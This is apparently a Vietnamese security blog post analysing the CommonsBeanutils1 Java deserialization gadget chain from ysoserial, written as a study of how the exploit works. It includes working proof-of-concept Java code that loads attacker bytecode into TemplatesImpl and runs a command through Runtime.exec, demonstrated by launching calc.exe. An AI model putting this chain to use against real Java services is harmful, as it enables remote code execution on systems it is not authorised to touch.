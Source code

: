 ```yaml
---
title: "[Java Deserialization] CommonsBeanutils1 exploit chain analysis"
date: 2022-01-19T18:17:00+07:00
draft: false
categories: [
    "Offensive Security",
]
tags: [
    "Java","Code"
]
---
```

Các lỗ hổng liên quan tới deserialization trên Java đã trở thành một vấn đề bảo mật nóng trong những năm gần đây. Quá trình deserialize không an toàn có thể dẫn đến các lỗ hổng nghiêm trọng như thực thi mã từ xa. Ysoserial là một dự án được tạo bởi frohoff, một người phát hiện ra lỗ hổng deserialization trên Java. Bài viết này sẽ phân tích về chain CommonsBeanutils1

Apache Commons Beanutils là một dự án khác thuộc bộ công cụ Apache Commons cung cấp một số phương thức thao tác trên các đối tượng lớp Java thông thường (còn được gọi là JavaBeans).

### Gadget chain
```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                siftDownUsingComparator()
                    BeanComparator.compare()
                        TemplatesImpl.getOutputProperties()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        TemplatesImpl.TransletClassLoader.defineClass()
                                            Pwner*(Javassist-generated).<static init>
                                                Runtime.exec()
```
### Phân tích
Ví dụ, đây là lớp JavaBean đơn giản nhất

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/1.jpg)

Commons-beanutils cung cấp một phương thức tĩnh PropertyUtils.getProperty cho phép người dùng gọi trực tiếp phương thức getter của bất kỳ JavaBean nào, chẳng hạn như:

```
PropertyUtils.getProperty (Object bean, String name)
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/2.jpg)

Lúc này, commons-beanutils sẽ tự động tìm phương thức getter của thuộc tính name, tức là getName, rồi gọi nó để lấy giá trị trả về. Bằng cách này, người dùng có thể dễ dàng gọi getter của bất kỳ đối tượng nào.

Trong phương thức so sánh của lớp BeanComparator, có một lệnh gọi đến hàm PropertyUtils.getProperty, được thực hiện như sau:

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/3.jpg)

Phương thức này truyền vào 2 đối tượng. Nếu this.property là null thì so sánh hai objects trực tiếp với nhau, ngược lại this.property khác null, sẽ sử dụng PropertyUtils.getProperty để lấy giá trị property của hai đối tượng và so sánh chúng với nhau. Như đã nói ở trên, PropertyUtils.getProperty sẽ tự động gọi phương thức getter của JavaBean, đây là key để thực thi code tuỳ ý. 

Vậy có bất kì phương thức getter nào có thể thực thi mã tuỳ ý không?

**TemplatesImpl chain**

```
TemplatesImpl#getOutputProperties ->
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

Chain thức này đã được tìm thấy trước đó. PropertyUtils.getProperty(o1, property) : Khi o1 được truyền vào là một TemplatesImpl object và property có giá trị là outputProperties, phương thức getter sẽ tự động gọi để thực thi phương thức TemplatesImpl#getOutputProperties(). Trong nội bộ TemplatesImpl#getOutputProperties() nó lại gọi đến newTransformer()

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/4.jpg)

Mà TemplatesImpl#newTransformer() thường được sử dụng để thực thi bytecodes độc hại:

```
TemplatesImpl#newTransformer() ->
```
![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/5.jpg)

TemplatesImpl#getTransletInstance() -> 

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/6.jpg)

TemplatesImpl#defineTransletClasses()-> 

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/7.jpg)

TransletClassLoader#defineClass()

Xây dựng TemplatesImpl

```
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates,"_name", "Pwnr");
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
setFieldValue(templates,"_bytecodes",new byte[][]{malicious_bytes});
PropertyUtils.getProperty(templates,"outputProperties");
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/8.jpg)

Và sau đó truyền đối tượng TemplatesImpl vừa tạo vào BeanComparator

```
BeanComparator beanComparator = new BeanComparator("outputProperties");
```

**PriorityQueue**

ReadObject trong PriorityQueue sẽ gọi hàm heapify để sắp xếp các phần tử, sau đó kích hoạt phương thức comparator.compare tạo nên một chuỗi hoàn hảo. Chắc vẫn còn cách khác để trigger được comparator.compare nhưng trong gadget chain này tác giả đã sử dụng cách thức này. Càng phân tích càng thấy hâm mộ những con người đi trước sao có thể tìm được như vậy.

```
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/9.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/10.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/11.jpg)

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/12.jpg)

Chain hoàn chỉnh:

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/13.jpg)

Hoàn hảo!

Code thao khảo:

**RunCmd.class**
```
package com.summer.cb1;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class RunCmd extends AbstractTranslet{
    static {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

**TempletesTest class**
```
package com.summer.cb1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.PropertyUtils;
import org.junit.Test;

import java.lang.reflect.Field;

public class TempletesTest {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] classToBytes() throws Exception{
        byte[] bytes = ClassPool.getDefault().get(RunCmd.class.getName()).toBytecode();
        return bytes;
    }

    @Test
    public void test() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates,"_bytecodes",new byte[][]{classToBytes()});
        PropertyUtils.getProperty(templates,"outputProperties");
    }

    
}

```

![](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cb1/14.jpg)

Học được: 

- Kĩ năng nghiên cứu, phân tích vấn đề
- Học được nhiều điều về java và phân tích gadget chain trong java deserialization.

Ngày đầu ngồi đọc không hiểu gì. Ngày 2 bắt đầu vào phân tích thấy rất hay và vỡ ra nhiều điều. Mình sẽ phân tích các gadget chain khác hoặc một CVE nào đó về java deserialization trong thời gian tới.

Tham khảo (Để hiểu được không biết tôi đã đọc bao nhiêu bài viết của các pháp sư Trung Hoa nữa!)

Cảm ơn bạn đã đọc tới đây!



